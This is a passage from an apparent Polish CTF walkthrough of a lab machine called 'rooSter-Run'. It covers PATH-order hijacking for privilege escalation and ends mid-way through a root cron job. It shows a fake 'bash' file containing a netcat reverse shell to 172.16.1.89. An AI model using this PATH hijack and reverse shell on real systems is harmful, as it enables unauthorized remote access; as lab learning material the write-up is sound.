 ```bash
#!/usr/bin/env bash

for file in ~/*; do
    if [[ -f $file ]]; then
        if [[ ! -s $file ]]; then
            echo "$file is empty."
        fi
        
        if [[ $(find "$file" -mtime +365 -print) ]]; then
            echo "$file hasn't been modified for over a year."
        fi
    fi
done
```
Sprawdźmy kolejność przeszukiwania katalogów przez **Basha**(zakładając, że _matthieu_ ma tak samo):
{: .text-justify}
```bash
www-data@rooSter-Run:/home/matthieu$ echo $PATH
# echo $PATH
# /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
Zobaczmy gdzie jest **Bash**:
{: .text-justify}
```bash
whereis bash
# bash: /usr/bin/bash /usr/share/man/man1/bash.1.gz
```
Katalog _/usr/bin/_ jest za _/usr/local/bin_, więc jeżeli wrzucimy nasz plik **Bash** do katalogu _/usr/local/bin_ to się uruchomi pierwszy. Zawartość **Basha** jego to oczywiście **Reverse Shell**. 
{: .text-justify}
Zawartość pliku:
{: .text-justify}
```bash
nc -c /bin/bash 172.16.1.89 12345
```
# 05. Użytkownik matthieu
Będąc już na koncie _matthieu_ odpalamy wcześniej pobrany program **Lse**. Znalazł interesujący nas fragment:
{: .text-justify}
![03](/assets/images/hacking/2023/05/03.png)
{: .text-justify}
# 06. Ruster Run
I tu zaczynają się schody, oraz ten **wyścig kogutów**, które zabrały mi troche czasu. Pomógł mi zaś **Ethicrash** i gdzieś widziałem wcześniej podobną sztuczkę na maszynie od **RiJaba1** (niekoniecznie to działało tak samo, ale...), ale po kolei. W katalogu _/opt/maintenance_ mamy skrypt o nazwie _backup.sh_, który jest wykonywany co minutę przez **Crontab** z konta **Roota**.
{: .text-justify}
```bash
#!/bin/bash

PROD="/opt/maintenance/prod-tasks"
```